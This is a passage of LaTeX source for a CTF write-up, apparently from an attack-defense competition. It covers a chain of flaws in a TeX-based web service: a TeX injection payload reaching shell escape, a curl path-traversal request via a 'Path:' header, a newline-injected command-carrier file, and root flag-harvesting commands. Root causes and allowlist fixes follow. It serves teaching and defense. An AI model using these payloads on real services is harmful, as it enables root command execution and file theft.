Because the service was running with \code{--shell-escape}, the answer
was yes.


% ------------------------------------------------------------
% 5.1
% ------------------------------------------------------------

\subsection{The Working Payload}

The compact payload that turned the component-type injection into command
execution was:

\begin{lstlisting}
^^5cUseName{@@input}|"id>/x"
\end{lstlisting}

At first glance this looks slightly cursed.

Broken into pieces, however, it is manageable:

\begin{center}
\begin{tabular}{p{0.31\textwidth} p{0.58\textwidth}}
  \toprule
  \textbf{Part} & \textbf{Purpose} \\
  \midrule

  \code{\^{}\^{}5c} &
  Produces the backslash character required to begin a TeX control
  sequence. \\[0.5em]

  \code{UseName\{@@input\}} &
  Resolves LaTeX's internal input primitive. \\[0.5em]

  \code{|"id>/x"} &
  Uses the shell-enabled pipe form of the input operation and runs the
  command \code{id>/x}. \\

  \bottomrule
\end{tabular}
\end{center}


% ------------------------------------------------------------
% 5.2
% ------------------------------------------------------------

\subsection{Why \texttt{@@input}?}

A normal TeX file include may look like:

\begin{lstlisting}
\input{file.tex}
\end{lstlisting}

During testing, the useful form was instead:

\begin{lstlisting}
\UseName{@@input}
\end{lstlisting}

This provided access to the internal input primitive used by LaTeX.

With shell escape enabled, the input mechanism also supports a pipe form:

\begin{lstlisting}
\UseName{@@input}|"command"
\end{lstlisting}

Instead of opening a normal file, XeLaTeX executes the supplied command.

The command's output can then be treated as input by TeX.

For exploitation, however, we did not actually need to consume the
command output inside the document.

Redirecting it into a file was much simpler.


% ------------------------------------------------------------
% 5.3
% ------------------------------------------------------------

\subsection{A Tiny Proof of Execution}

The initial proof used:

\begin{lstlisting}
id>/x
\end{lstlisting}

This resulted in the complete injected value:

\begin{lstlisting}
^^5cUseName{@@input}|"id>/x"
\end{lstlisting}

Once stored as the component type and rendered, the effective execution
path became:

\begin{center}
  \displayfont
  component type
  $\longrightarrow$
  \code{\textbackslash edef}
  $\longrightarrow$
  \code{\textbackslash UseName\{@@input\}}
  $\longrightarrow$
  shell command
\end{center}

The command itself wrote the result of \code{id} into:

\begin{lstlisting}
/x
\end{lstlisting}


% ------------------------------------------------------------
% 5.4
% ------------------------------------------------------------

\subsection{Getting the Output Back}

This is where the earlier \code{Path} vulnerability immediately became
useful again.

The result file could be retrieved with the existing file-read primitive:

\begin{lstlisting}
curl -g -6 --noproxy '*' \
  --path-as-is \
  -H 'Path: /../../x' \
  'http://[TARGET]:1337/'
\end{lstlisting}

The returned content showed that the command was executing as root inside
the LAMP service container:

\begin{lstlisting}
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

The chain had therefore reached:

\begin{center}
  \displayfont\large\bfseries
  container-root remote command execution
\end{center}


% ------------------------------------------------------------
% 5.5
% ------------------------------------------------------------

\subsection{The Chain So Far}

At this stage, the attack was already a complete RCE chain:

\begin{center}
\begin{tabular}{c}
  HTTP \code{typ} parameter \\[0.3em]
  $\downarrow$ \\[0.3em]
  stored in MariaDB \\[0.3em]
  $\downarrow$ \\[0.3em]
  reconstructed through \code{\textbackslash edef} \\[0.3em]
  $\downarrow$ \\[0.3em]
  \code{\^{}\^{}5c} becomes \code{\textbackslash} \\[0.3em]
  $\downarrow$ \\[0.3em]
  \code{\textbackslash UseName\{@@input\}} \\[0.3em]
  $\downarrow$ \\[0.3em]
  shell escape \\[0.3em]
  $\downarrow$ \\[0.3em]
  command output written to a file \\[0.3em]
  $\downarrow$ \\[0.3em]
  \code{Path:} traversal retrieves the result
\end{tabular}
\end{center}

\begin{findingbox}
The \code{typ} parameter was sufficient to turn stored application data
into operating-system command execution.

Because XeLaTeX ran as root inside the service container, the resulting
commands also executed as root inside that container.
\end{findingbox}


% ------------------------------------------------------------
% 5.6
% ------------------------------------------------------------

\subsection{Unfortunately, 32 Bytes}

There was one fairly significant problem.

The component type was not an unlimited string.

The MariaDB field only gave us a very small payload budget.

Simple commands such as:

\begin{lstlisting}
id>/x
\end{lstlisting}

fit comfortably.

A useful flag-harvesting command did not.

A reverse shell, a longer filesystem search, or even a convenient
multi-stage command quickly exceeded the available space.

So although we technically had root command execution, it initially
looked like this:

\begin{center}
  \displayfont\bfseries
  root RCE, but make it tiny.
\end{center}

The next problem was therefore not finding another execution primitive.

It was finding somewhere else to store the command.
% ============================================================
% 06 -- BYPASSING THE 32-BYTE LIMIT
% ============================================================

\section{Bypassing the 32-Byte Limit}
\label{sec:carrier-bypass}

The previous chapter ended in an awkward position.

We had command execution as root inside the LAMP container, but the
component type only gave us enough space for very small payloads.

Something like:

\begin{lstlisting}
id>/x
\end{lstlisting}

was fine.

Something useful for locating and extracting flags was not.

Instead of trying to compress increasingly ridiculous shell commands
into the component field, we looked for somewhere else to store them.


% ------------------------------------------------------------
% 6.1
% ------------------------------------------------------------

\subsection{Ship Names Were Stored as TeX Files}

During registration, LAMP created a file for each user beneath
\code{/storage}:

\begin{lstlisting}
\immediate\openout\shipfile=/storage/\postusername{}

\store{\shipname}{\postshipname{}}

\immediate\closeout\shipfile{}
\end{lstlisting}

The intention was simply to persist the chosen ship name.

For a user named:

\begin{lstlisting}
Q
\end{lstlisting}

the corresponding file would live at approximately:

\begin{lstlisting}
/storage/Q.tex
\end{lstlisting}

and contain a definition of the ship-name macro.


% ------------------------------------------------------------
% 6.2
% ------------------------------------------------------------

\subsection{The Escaping Looked Reasonable}

Before writing the ship name, LAMP attempted to escape characters that
could interfere with the generated TeX:

\begin{lstlisting}
\StrSubstitute{#2}
  {\stringbackslash}
  {\string\Uchar92}
  [\escaped]

\StrSubstitute{\escaped}
  {\stringcurlyopen}
  {\string\Uchar123}
  [\escaped]

\StrSubstitute{\escaped}
  {\stringcurlyclose}
  {\string\Uchar125}
  [\escaped]

\StrSubstitute{\escaped}
  {\stringsub}
  {\string\Uchar95}
  [\escaped]

\StrSubstitute{\escaped}
  {\stringsup}
  {\string\Uchar94}
  [\escaped]
\end{lstlisting}

So characters such as:

\begin{lstlisting}
\  {  }  _  ^
\end{lstlisting}

were transformed before being written.

There was, however, one useful character missing from that list:

\begin{center}
  \displayfont\bfseries
  newline.
\end{center}


% ------------------------------------------------------------
% 6.3
% ------------------------------------------------------------

\subsection{Newline Injection}

A ship name beginning with a newline could therefore change the physical
layout of the generated file.

Conceptually, registering a ship name like:

\begin{lstlisting}

ls /storage>/x;:
\end{lstlisting}

could produce a file resembling:

\begin{lstlisting}
\def \shipname {
ls /storage>/x;:}
\end{lstlisting}

As TeX, this file was malformed enough to be inconvenient.

As a shell script, however, the middle of it contained something much
more useful:

\begin{lstlisting}
ls /storage>/x
\end{lstlisting}

The surrounding TeX syntax could fail.

The shell command in the middle had already executed.


% ------------------------------------------------------------
% 6.4
% ------------------------------------------------------------

\subsection{The Storage File Became a Command Carrier}

This gave us a way to separate the exploit into two pieces.

The long command lived inside the user's storage file:

\begin{lstlisting}
/storage/Q.tex
\end{lstlisting}

The tiny component-type payload only needed to launch it:

\begin{lstlisting}
^^5cUseName{@@input}|"sh /s*/Q*"
\end{lstlisting}

After TeX processing, the important part became:

\begin{lstlisting}
\UseName{@@input}|"sh /s*/Q*"
\end{lstlisting}

The shell glob:

\begin{lstlisting}
/s*/Q*
\end{lstlisting}

was a compact way of reaching the attacker-created file under
\code{/storage} without spending the limited payload budget on the
entire path.


% ------------------------------------------------------------
% 6.5
% ------------------------------------------------------------

\subsection{Why This Solved the Payload Problem}

The exploit now had two stages:

\begin{center}
\begin{tabular}{p{0.28\textwidth} p{0.58\textwidth}}
  \toprule
  \textbf{Stage} & \textbf{Purpose} \\
  \midrule

  Registration &
  Store an arbitrarily longer shell command inside
  \code{/storage/<user>.tex}. \\[0.6em]

  Component injection &
  Use the tiny TeX RCE primitive only to execute that file with
  \code{sh}. \\

  \bottomrule
\end{tabular}
\end{center}

The constrained field no longer needed to contain the real payload.

It only needed to contain a launcher.

\begin{findingbox}
The 32-byte component-type limit restricted the size of the direct TeX
payload, but it did not restrict the size of commands already present
elsewhere on disk.

Newline injection in persisted ship names turned
\code{/storage/<user>.tex} into a reusable shell-command carrier.
\end{findingbox}


% ------------------------------------------------------------
% 6.6
% ------------------------------------------------------------

\subsection{How the PoC Created a Carrier}

The automated exploit eventually reduced carrier creation to:

\begin{lstlisting}
ship=$'\n'"$shellcmd"
\end{lstlisting}

The resulting value was URL-encoded and sent during registration:

\begin{lstlisting}
username=Q
password=mof
shipname=<newline><shell command>
\end{lstlisting}

Once registration succeeded, the component injection triggered the
carrier:

\begin{lstlisting}
action=add
x=10
y=10
typ=^^5cUseName{@@input}|"sh%20/s*/Q*"
\end{lstlisting}

The \code{\%20} is important here.

LAMP's POST form parser percent-decoded values, but unlike the query
parser it did not convert a literal \code{+} into a space.

Using:

\begin{lstlisting}
sh+/s*/Q*
\end{lstlisting}

would therefore not reliably produce:

\begin{lstlisting}
sh /s*/Q*
\end{lstlisting}

Using \code{\%20} did.


% ------------------------------------------------------------
% 6.7
% ------------------------------------------------------------

\subsection{One Small Operational Caveat}

The short launcher relied on shell globbing:

\begin{lstlisting}
/s*/Q*
\end{lstlisting}

This was useful during the competition because every saved byte mattered.

It was not particularly elegant.

If multiple matching paths existed, shell expansion could produce more
than one argument and make the launcher unreliable.

\begin{limitationbox}
The short glob-based launcher was a competition optimization, not a
general-purpose robust execution method.

The cleaned PoC should prefer deterministic paths whenever the payload
budget allows it.
\end{limitationbox}


% ------------------------------------------------------------
% 6.8
% ------------------------------------------------------------

\subsection{The Final Primitive}

At this point, the exploit had everything required for useful command
execution:

\begin{center}
  \displayfont
  register account
  $\longrightarrow$
  newline in ship name
  $\longrightarrow$
  shell carrier in \code{/storage}
  $\longrightarrow$
  tiny \code{typ} launcher
  $\longrightarrow$
  root command
  $\longrightarrow$
  output file
  $\longrightarrow$
  \code{Path:} retrieval
\end{center}

The remaining question was no longer how to execute commands.

It was:

\begin{center}
  \displayfont\large\bfseries
  where the hell does LAMP actually keep the flags?
\end{center}
\section{Finding the Flags}
\label{sec:flag-harvesting}

On our own instance, checker-created ship names held flags in files beneath
\code{/storage}. The storage routine represented the underscore in a FAUST
flag as \code{\textbackslash Uchar95}, so the on-disk value needed
normalization before submission.

An initial \code{grep -R FAUST /storage} recovered many old entries. To
favor recent checker state, we selected the newest files whose usernames
matched the observed 16-character pattern. Two carrier commands wrote the
candidate list and matching lines to files that \code{Path} could retrieve:

\begin{lstlisting}
ls -1t /storage/????????????????.tex | head -30 >/v3
cat /v3 | xargs grep -h FAUST >/v4
\end{lstlisting}

The attacking machine then restored escaped underscores, kept strings
matching the FAUST flag shape, and removed duplicates:

\begin{lstlisting}
perl -pe 's/\\Uchar95\s*/_/g' |
grep -aoE 'FAUST_[A-Za-z0-9+/]{32}' |
sort -u
\end{lstlisting}

The 16-character filename pattern came from observed checker accounts,
not a service guarantee. It improved freshness during the competition
but could miss flags if the checker changed its naming scheme.

\section{Automating the Exploit}
\label{sec:automation}

The Bash harvester iterated over competition teams at
\code{fd66:666:<team>::2}, TCP/1337, excluding our own box and
infrastructure targets. It checked whether registration responded before
attempting the chain. For each reachable target it:

\begin{enumerate}
  \item registered a short-lived account whose ship name contained the
        file-listing command, then triggered its \code{typ} launcher;
  \item registered another carrier for the grep command and triggered it;
  \item fetched the output through the \code{Path} traversal;
  \item normalized and deduplicated flags locally, then submitted them
        through MOTH.
\end{enumerate}

Short one-character usernames saved bytes in the constrained launcher.
Each registration also produced a session cookie needed to add the
component. The form-encoded launcher used \code{\%20} for spaces.

MOTH received batches tagged with the service and source team. Its bearer
token came from \code{MOTH\_API\_TOKEN} in the environment, rather than a
credential embedded in the public script. Team jobs ran concurrently with
a worker limit so that one slow instance did not hold up the entire sweep.

Teams patched while the competition ran. The harvester had to distinguish
unreachable services, broken registrations, rejected primitives, and
instances where the full chain still worked. A failed request alone did
not establish which of those states applied.

\section{Live Competition Results}
\label{sec:results}

The chain worked against vulnerable competition instances. The harvester
created carriers, triggered command execution, recovered checker state,
and submitted flags through MOTH. Accepted submissions confirmed that at
least some recovered flags were current and scorable.

Early broad searches also recovered stale or duplicate flags. Restricting
the search to recent checker-like files reduced that noise. MOTH feedback
separated syntactically valid extraction from acceptance by the gameserver;
a duplicate response did not mean the exploit failed.

The available targets changed during the event. Later service versions
we inspected rejected reserved headers such as \code{Path}, restricted
component types to \code{light}, \code{button}, or \code{source}, and
validated ship names against a strict character allowlist. These changes
closed the specific chain described here on patched instances.

This report does not claim a total number of affected teams or accepted
flags. The supported result is that the complete chain produced accepted
live submissions while vulnerable instances remained available.

% ============================================================
% 10 -- ROOT CAUSE, FIXES, AND LESSONS LEARNED
% ============================================================

\section{Root Cause, Fixes, and Lessons Learned}
\label{sec:lessons}

LAMP was not compromised because of one spectacular bug.

The exploit worked because attacker-controlled data repeatedly crossed
boundaries between different interpreters without being constrained for
the language it entered next.

The complete chain involved:

\begin{center}
  \displayfont
  HTTP
  $\longrightarrow$
  TeX
  $\longrightarrow$
  SQL
  $\longrightarrow$
  TeX
  $\longrightarrow$
  shell
\end{center}

At each step, a value that looked like ordinary application data in one
context gained new meaning in another.


% ------------------------------------------------------------
% 10.1
% ------------------------------------------------------------

\subsection{Root Cause: Data Became Code}

The most important vulnerability was not
\code{--shell-escape} by itself.

It was the loss of separation between data and executable TeX.

The component type is the clearest example.

It began as a POST value:

\begin{lstlisting}
typ=light
\end{lstlisting}

It was escaped for SQL and persisted into MariaDB.

Later, the same value was reconstructed through:

\begin{lstlisting}
\edef\type#1{\compdata[3]}
\end{lstlisting}

At that point it was no longer merely database content.

It could influence TeX expansion.

Once attacker-controlled TeX existed inside a process started with shell
escape enabled, the impact became operating-system command execution.

\begin{findingbox}
Escaping a value for one interpreter does not make it safe for the next
interpreter.

The component type was SQL-safe but not TeX-safe.
\end{findingbox}


% ------------------------------------------------------------
% 10.2
% ------------------------------------------------------------

\subsection{Fixing the Path Collision}

The \code{Path} vulnerability existed because HTTP headers and internal
request variables shared the same dynamically constructed namespace.

A header named:

\begin{lstlisting}
Path:
\end{lstlisting}

became:

\begin{lstlisting}
\httpPath
\end{lstlisting}

which collided directly with application state.

A later defensive wrapper rejected header names corresponding to
internal request variables before the request reached XeLaTeX:

\begin{lstlisting}
path
method
version
query
static
line
cookies
\end{lstlisting}

That prevents the specific overwrite used by the exploit.

A cleaner design would go further and avoid placing external HTTP header
names and internal application state in the same namespace at all.


% ------------------------------------------------------------
% 10.3
% ------------------------------------------------------------

\subsection{Fixing the Component Injection}

The web interface only supported three component types:

\begin{lstlisting}
light
button
source
\end{lstlisting}

The vulnerable backend nevertheless accepted arbitrary values.

The effective fix was therefore not complicated:

\begin{lstlisting}
typ =~ /^(?:light|button|source)$/
\end{lstlisting}

This is preferable to trying to blacklist TeX syntax.

There are many ways to express interesting behaviour in TeX, and trying
to enumerate dangerous tokens would leave unnecessary parser complexity.

If a field has three valid values, then it should accept exactly three
valid values.


% ------------------------------------------------------------
% 10.4
% ------------------------------------------------------------

\subsection{Fixing the Newline Carrier}

The original \code{\textbackslash store} function attempted to escape
characters with special meaning in TeX:

\begin{lstlisting}
\
{
}
_
^
\end{lstlisting}

The exploit did not need any of them.

It only needed a newline.

The patched request handling instead restricted ship names to a small
set of expected characters before they reached the TeX application.

That removed the ability to transform:

\begin{lstlisting}
\def \shipname {VALUE}
\end{lstlisting}

into a multi-line file containing an independent shell command.

Again, the important lesson is that allowlisting the expected data is
simpler than attempting to escape every dangerous representation.


% ------------------------------------------------------------
% 10.5
% ------------------------------------------------------------

\subsection{Shell Escape Multiplied the Impact}

The TeX injection was the vulnerability.

Shell escape was what made its consequences severe.

LAMP was executed with:

\begin{lstlisting}
xelatex -8bit --shell-escape /srv/main.tex
\end{lstlisting}

Once arbitrary TeX expansion was achieved, the distance from TeX code
execution to operating-system command execution became very small.

If shell escape is not required, the obvious hardening measure is to
disable it.

If external command execution is genuinely required, the safer design
is to expose only the specific operations the application needs rather
than giving general TeX processing access to a shell.


% ------------------------------------------------------------
% 10.6
% ------------------------------------------------------------

\subsection{Defense in Depth}

The competition patches closed the primitives used by this exploit.

There are still several additional measures that would reduce the impact
of similar mistakes.

\begin{itemize}

  \item Run XeLaTeX as a dedicated unprivileged user rather than root.

  \item Give the process access only to files required by the service.

  \item Keep attacker-controlled values as inert data instead of
        reconstructing them as TeX source.

  \item Validate input before passing it into the TeX interpreter.

  \item Separate HTTP request metadata from internal TeX control
        sequences.

  \item Prefer strict allowlists for small enumerated fields such as
        component types.

  \item Disable unrestricted shell escape whenever possible.

\end{itemize}

None of these replaces correct input handling.

They reduce the damage when correct input handling eventually fails.


% ------------------------------------------------------------
% 10.7
% ------------------------------------------------------------

\subsection{The Exploit in One Page}

The entire chain can finally be summarized as:

\begin{center}
\begin{tabular}{c}
  \code{Path:} overwrites \code{\textbackslash httpPath} \\[0.25em]
  $\downarrow$ \\[0.25em]
  arbitrary file retrieval \\[0.25em]
  $\downarrow$ \\[0.25em]
  attacker-controlled \code{typ} stored in MariaDB \\[0.25em]
  $\downarrow$ \\[0.25em]
  database value reconstructed as TeX \\[0.25em]
  $\downarrow$ \\[0.25em]
  \code{\^{}\^{}5cUseName\{@@input\}} reaches shell escape \\[0.25em]
  $\downarrow$ \\[0.25em]
  container-root command execution \\[0.25em]
  $\downarrow$ \\[0.25em]
  newline-injected ship file becomes long-command carrier \\[0.25em]
  $\downarrow$ \\[0.25em]
  recent checker storage searched \\[0.25em]
  $\downarrow$ \\[0.25em]
  flags retrieved through the original \code{Path} primitive \\[0.25em]
  $\downarrow$ \\[0.25em]
  MOTH submission
\end{tabular}
\end{center}


% ------------------------------------------------------------
% 10.8
% ------------------------------------------------------------

\subsection{Final Takeaway}

LAMP is a good example of why unusual software stacks produce unusual
security boundaries.

HTTP headers became TeX macros.

Database strings became TeX macros.

User-controlled text became files that were later interpreted again.

And the TeX interpreter had access to a shell.

Individually, several of those decisions were manageable.

Together, they produced a chain from one HTTP request field to root
command execution inside the service container.

\begin{findingbox}
The useful question was never:

\begin{center}
``Is LaTeX dangerous?''
\end{center}

It was:

\begin{center}
``At what point does attacker-controlled data become executable LaTeX?''
\end{center}

Once that boundary was found, the rest of LAMP went brrr.
\end{findingbox}

\end{document}